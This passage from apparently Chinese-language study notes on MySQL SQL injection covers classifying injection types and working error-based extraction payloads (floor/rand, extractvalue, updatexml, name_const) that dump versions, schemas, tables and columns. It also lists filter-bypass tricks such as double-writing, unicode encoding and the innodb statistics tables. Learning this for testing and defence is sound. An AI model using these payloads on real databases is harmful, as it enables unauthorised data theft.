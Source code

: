 `or`可以替换成`||`,`/*!12345||*/`,`Or`等。还可以字符编码用一些unicode支持的字符替换O或者r字符，某些条件下可以绕过参数检测。并且要考虑where后面可能还有`limit`，`order by`等子句。

通过以上或者其他的语句，如果能成功闭合，我们接下来要判断的就是注入类型。
注入类型按我的理解是分为`有无回显`两种情况。有回显分`报错`、`布尔`两种类型。无回显就构造回显，常见的有盲注，不常见的可能DNS注入算是，但是dns注入在高版本是受到限制的。至于其他一些不常见的我希望后面自己可以研究出来！上面的思路变成思维导图如下：
```
有无回显->有->有无爆错->有->爆错注入
   ⬇		 ⬇  
  无	         无->union注入
   ⬇		 ⬇				   
 盲注       是否为布尔->是->布尔注入        
```

分析从`报错注入`->`union注入`->`布尔注入`->`盲注`

### 报错注入

报错注入在MySQL5.5版本前后貌似是个分水岭，之前的版本存在的报错语句有很多种。之后就少了很多，可能也有更多，但是没有公开。
常用的函数有：`floor`,`extractvalue`,`updatexml`,`name_const`；还有数据溢出和join爆列2种；

**语句**

最基本的探测语句：
```SQL
select count(*),concat((version()),floor(rand(0)*2))x from information_schema.tables group by x;
select extractvalue(1,concat(0x7e,(select @@version),0x7e));
select updatexml(1,concat(0x7e,(select @@version),0x7e),1);
select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;
select *  from(select * from test a join test b)c;
select *  from(select * from test a join test b using(id))c;
select (select(!x-~0)from(select(select user())x)a);
```
具体情况需要具体结合。其中updatexml和floor、extractvalue类似。简单的列出floor的数据后去过程：
```SQL
select 1 from(select count(*),concat((select concat(0x7e,version(),0x7e)),floor(rand(0)*2))x from information_schema.tables group by x)a;
select 1 from(select count(*),concat((select distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 1,1),floor(rand(0)*2))x from information_schema.tables group by x)a;	
select 1 from(select count(*),concat((select distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a;
select 1 from(select count(*),concat((select distinct concat(0x7e,column_name,0x7e) FROM information_schema.columns where table_name='users' LIMIT 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a;
select 1 from(select count(*),concat((select distinct concat(0x7e,column,0x7e) FROM database.table LIMIT 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a;
```
name_cons由于参数只能为常量，没有更好的利用手段，只能爆出版本号。
join的利用和name_const是一个特性，可以爆出列名。

**绕过**

肯定会添加一些单词到黑名单，可以考虑双写(oorr)，大小写，内联注释，编码，等价替换，用户变量等绕过手段，如：
- 版本大于`5.6`，如果过滤了information_schema可以考虑`mysql.innodb_table_stats`，`mysql.innodb_index_stats`
```SQL
select 1 from(select count(*),concat((select distinct concat(0x7e,table_name,0x7e) FROM mysql.innodb_index_stats where database_name=schema() LIMIT 0,1),floor(rand(0)*2))x from mysql.innodb_index_stats group by x)a;
```
- 数据库可以使用0x进制绕过。
- floor的rand函数被过滤可以考虑用户变量替代。
```SQL
select min(@a:=1) from information_schema.tables group by concat(password,@a:=(@a+1)%2)
```
- 编码绕过：
```
s%u0065lect->select
s%u00f0lect->select
```